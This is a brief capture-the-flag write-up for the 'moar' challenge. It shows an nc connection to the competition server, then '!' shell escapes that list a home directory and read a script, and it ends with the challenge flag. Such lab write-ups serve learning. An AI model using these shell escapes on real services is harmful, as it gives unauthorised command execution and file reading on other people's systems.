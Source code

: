 #moar

```sh
$ nc moar.ctfcompetition.com 1337
$ !ls /home/moar
$ !cat /home/moar/disable_smz.sh

```

### Flag
CTF{SOmething-CATastr0phic}
